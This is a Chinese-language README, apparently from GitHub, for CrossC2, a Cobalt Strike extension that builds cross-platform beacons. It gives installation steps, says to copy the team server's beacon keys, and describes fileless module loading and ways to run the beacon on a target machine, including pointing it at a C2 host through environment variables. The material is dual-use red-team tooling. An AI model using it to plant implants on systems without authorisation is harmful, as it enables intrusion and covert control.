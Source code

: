 受限说明:
* CobaltStrike: 暂时仅支持3.14最后一个版本(bug fixs), 以及4.x版本(详见cs4.1分支).
* Linux: 特别老旧的系统可以选择cna中的"Linux-GLIBC"选项（2010年左右）
* MacOS: 新系统仅支持64位程序
* iOS: sandbox 
* Embedded: only *nix
* ⍻ : 加载还在完善中

# Install & Usage

> 下载基础文件:

* **CrossC2.cna**
* **genCrossC2** `(如果操作系统是Windows, 下载genCrossC2.Win.exe)`
<details><summary><b>注意事项⚠️</b></summary></details>

1. 修改`CrossC2.cna`脚本中`CC2_PATH, CC2_BIN`路径为**真实路径**
```
3:    $CC2_PATH = "/xxx/xx/xx/"; # <-------- fix
4:    $CC2_BIN = "genCrossC2.MacOS";
```

2. 选择`Script Manager`，添加`CrossC2.cna` (如果成功安装，菜单栏会多出一项 `CrossC2`)


> 建立listener与拷贝key:

因为一些原因，目前强制只支持HTTPS beacon。

1. 复制**server上cs目录**下的 `.cobaltstrike.beacon_keys`到**本地目录**下

> 功能扩展:

1. 下载CrossC2Kit, 添加`CrossC2Kit_Loader.cna`, 包含内存加载等其它功能。(`cs4.x`版本文件管理功能缺失，必须使用此Loader来重新启用文件管理)

> 运行beacon的方法:

* 在目标上运行CrossC2插件生成的一键上线脚本
* 上传beacon至目标机器后进行赋权运行
* 为beacon设定工作目录并运行: `export CCPATH=/opt/ && /tmp/c2`
* 为beacon临时指定协议库并运行: `/tmp/c2 /tmp/c2-rebind.so`
* 为beacon临时设定C2配置: `export CCHOST=127.0.0.1 && export CCPORT=443 && /tmp/c2`


## 安装参考文档: [📖 Wiki](https://gloxec.github.io/CrossC2/zh_cn/usage/)

## 自定义模块: API介绍 [📖 Wiki](https://gloxec.github.io/CrossC2/zh_cn/api/)

采用内存无落地加载方式，支持动态库(.so/.dylib)以及可执行文件(ELF/MachO)。


执行时输出信息的类型可以自由指定，已预定了返回类型，可对接CS原生的返回数据类型。

<details><summary><b>注意事项⚠️</b></summary></details>

